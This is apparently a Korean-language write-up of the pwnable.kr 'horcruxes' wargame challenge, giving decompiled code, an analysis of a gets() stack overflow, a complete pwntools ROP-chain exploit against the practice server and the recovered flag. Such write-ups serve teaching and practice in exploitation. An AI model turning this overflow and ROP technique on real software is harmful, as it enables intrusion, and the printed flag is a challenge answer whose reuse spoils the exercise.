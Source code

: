 ```yaml
---


---
```


<h1 id="pwnable.krhorcruxes-문제-풀이"><a href="http://pwnable.kr">pwnable.kr</a>:horcruxes 문제 풀이</h1>
<h2 id="관찰분석">2019-07-17 관찰&amp;분석</h2>
<p><code>file horcruxes</code> 로 알아보았다.</p>
<pre><code>horcruxes: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=bed2c3c01d21a3cbb1109e76a83310dfb8a077be, not strippedenter code here
</code></pre>
<p>32bit의 리눅스 실행파일이다. 실행해보면 7개의 호크룩스를 찾아 달라고 한다.<br>
IDA로 분석해 보았다.</p>
<p>*main()</p>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ST1C_4

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  alarm(0x3Cu);
  hint();
  init_ABCDEFG();
  v3 = seccomp_init(0);
  seccomp_rule_add(v3, 2147418112, 173, 0);
  seccomp_rule_add(v3, 2147418112, 5, 0);
  seccomp_rule_add(v3, 2147418112, 3, 0);
  seccomp_rule_add(v3, 2147418112, 4, 0);
  seccomp_rule_add(v3, 2147418112, 252, 0);
  seccomp_load(v3);
  return ropme();
}
</code></pre>
<p>각 변수들의 초기화가 이루어지고 ropme를 리턴시키고 있다.<br>
ropme함수가 이번 문제의 핵심이라고 예상 할 수 있다.</p>
<p>*ropme()</p>
<pre><code>int ropme()
{
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &amp;v2);
  getchar();
  if ( v2 == a )
  {
    A();
  }
  else if ( v2 == b )
  {
    B();
  }
  else if ( v2 == c )
  {
    C();
  }
  else if ( v2 == d )
  {
    D();
  }
  else if ( v2 == e )
  {
    E();
  }
  else if ( v2 == f )
  {
    F();
  }
  else if ( v2 == g )
  {
    G();
  }
  else
  {
    printf("How many EXP did you earned? : ");
    gets(s);
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
</code></pre>
<p>scanf로 각 변수 값을 입력하면 내용이 반환된다.<br>
마지막엔 gets로 입력 받은 내용이 a부터 g까지의 합과 같으면 flag를 보여주게 되어있다.</p>
<p>*ABCDEFG()</p>
<pre><code>unsigned int init_ABCDEFG()
{
  int v0; // eax
  unsigned int result; // eax
  unsigned int buf; // [esp+8h] [ebp-10h]
  int fd; // [esp+Ch] [ebp-Ch]

  fd = open("/dev/urandom", 0);
  if ( read(fd, &amp;buf, 4u) != 4 )
  {
    puts("/dev/urandom error");
    exit(0);
  }
  close(fd);
  srand(buf);
  a = -559038737 * rand() % 0xCAFEBABE;
  b = -559038737 * rand() % 0xCAFEBABE;
  c = -559038737 * rand() % 0xCAFEBABE;
  d = -559038737 * rand() % 0xCAFEBABE;
  e = -559038737 * rand() % 0xCAFEBABE;
  f = -559038737 * rand() % 0xCAFEBABE;
  v0 = rand();
  g = -559038737 * v0 % 0xCAFEBABE;
  result = f + e + d + c + b + a + -559038737 * v0 % 0xCAFEBABE;
  sum = result;
  return result;
}
</code></pre>
<p>하지만 a부터 g까지의 변수값은 랜덤으로 정해진다. 그렇기 때문에 정상적인 방법으로는 sum을 구해낼 수 없다.<br>
gets함수가 버퍼의 용량과 상관 없이 데이터를 받는 점을 이용하여 payload를 전송 할 수 있을 것이다.</p>
<p><code>pwndbg ./horcruxes</code> 로 <code>p A</code> 해보았다.</p>
<pre><code>$1 = {&lt;text variable, no debug info&gt;} 0x809fe4b &lt;A&gt;
</code></pre>
<p>함수의 주소가 그대로 노출되었다. 이제 payload과정을 생각해보자<br>
BOF -&gt; A() -&gt; B()… -&gt; G() 까지 한 후 출력된 결과물을 합하고 ropme()를 실행하여 입력해주면 될 것이다.</p>
<h2 id="gets와-함수주소의-오류">2019-07-18 gets와 함수주소의 오류</h2>
<p>수의 주소를 사용할 때 해당 주소에 "\n(0x0a)"이 포함되어있으면 <code>gets</code> 함수에 들어가 줄 내림으로 인식하기 때문에 문제가 생기게 된다.<br>
따라서 <strong>그 함수를 호출하는 부분의</strong> 주소를 이용하는 등 다른 우회방법을 생각해야 한다.</p>
<h2 id="payload1">2019-07-19 Payload1</h2>
<pre><code>from pwn import*
LOCAL = './horcruxes'
s = ssh("horcruxes", "pwnable.kr", port = 2222, password = "guest")
conn = s.remote("localhost", 9032)

p = process(LOCAL)
e = ELF(LOCAL)
l = e.libc
</code></pre>
<p><a href="http://pwnable.kr">pwnable.kr</a> 서버와 통신하게 준비했다. 동시에 주소를 자동으로 구할 수 있도록 <code>scp</code> 명령어로 내려받은 후 elf연결 했다.</p>
<pre><code>A = e.sym.A
B = e.sym.B
C = e.sym.C
D = e.sym.D
E = e.sym.E
F = e.sym.F
G = e.sym.G
ropme = 0x809fffc
</code></pre>
<p>주소를 변수에 넣어준다.</p>
<pre><code>print conn.recvuntil(":")
conn.sendline("1")
print conn.recvuntil(":")

payload = ""
payload += 'A' * 120
payload += p32(A)
payload += p32(B)
payload += p32(C)
payload += p32(D)
payload += p32(E)
payload += p32(F)
payload += p32(G)
payload += p32(ropme)
</code></pre>
<p>~Menu: 부분을 넘어가 주고, 정수 입력을 마친 후, earned? 부분을 넘어가 준다. (가독성을 위해 <code>print</code>로 출력시켰다.)<br>
후에 Payload를 작성해 간다. BOF하고 그 RET에 A()를 그 RET에 B()를… 마지막엔 ropme()를 올려준다.</p>
<pre><code>conn.sendline(payload)

sum = 0
for i in range(0, 7):
        conn.recvuntil("EXP +")
        sum += int(conn.recvuntil(')')[:-1])
</code></pre>
<p>Payload를 보내주고 알파벳 함수가 실행되면 <code>"You found \"******************\" (EXP +%d)\n"</code> 식으로 출력된다.<br>
이 때 EXP +부분 까지 넘겨주고 그 뒤의 정수는 '괄호 닫기’부분 까지 받은 후 '괄호 닫기’를 제한다.<br>
그렇게 얻은 정수를 반복문을 통해 더해간다.</p>
<pre><code>print conn.recvuntil(":")
conn.sendline("1")
print conn.recvuntil(":")
conn.sendline(str(sum))
conn.interactive()
</code></pre>
<p>다시 ropme()가 실행됬을 때 마찬가지로 ~Menu: 와 ~earned : 부분을 넘어간 후 구해준 더한 값을 입력 해 준다.</p>
<pre><code>Magic_spell_1s_4vad4_K3daVr4!
</code></pre>
<p>성공했다.</p>

